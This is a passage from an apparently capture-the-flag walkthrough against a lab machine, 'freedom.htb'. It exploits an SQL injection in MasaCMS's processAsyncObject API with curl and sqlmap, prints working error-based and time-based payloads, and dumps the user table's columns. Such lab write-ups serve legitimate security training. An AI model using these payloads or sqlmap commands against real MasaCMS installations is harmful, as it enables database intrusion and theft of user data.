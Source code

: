 We can see, that the `index.cfm` is appended to every blog post. Let's try to add `index.cfm` to our previous request and check if it works.

> Appending index in URLs is actually the default/recommended option for MasaCMS.

```bash
curl "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'&previewID=x"

{"error":{"message":"Unhandled Exception","code":"server_error"<SNIP>}}
```

Our version is vulnerable to SQLi. Let's use SQLMap to dumb the users. First, let's detect the proper SQLi technique.

```bash
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'*&previewID=x"   --batch


<SNIP>
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1160 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x\' AND GTID_SUBSET(CONCAT(0x71766b7a71,(SELECT (ELT(7289=7289,1))),0x7176716a71),7289)-- UbPs&previewID=x

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x\' AND (SELECT 8168 FROM (SELECT(SLEEP(5)))erZz)-- yfxw&previewID=x
---
[12:42:53] [INFO] the back-end DBMS is MySQL
```

Now we can start dumping information.

```
sqlmap -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5c'*&previewID=x" -D dbMasaCMS -T tusers --columns --batch

+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
<SNIP>
| Fname           | varchar(50)  |
| GroupName       | varchar(255) |
| IMName          | varchar(100) |
| IMService       | varchar(50)  |
| interests       | longtext     |
| isPublic        | int          |
| JobTitle        | varchar(50)  |
| keepPrivate     | tinyint      |
| LastLogin       | datetime     |
| LastUpdate      | datetime     |
| LastUpdateBy    | varchar(50)  |
| LastUpdateByID  | varchar(35)  |
| Lname           | varchar(50)  |
<SNIP>
+-----------------+--------------+
```
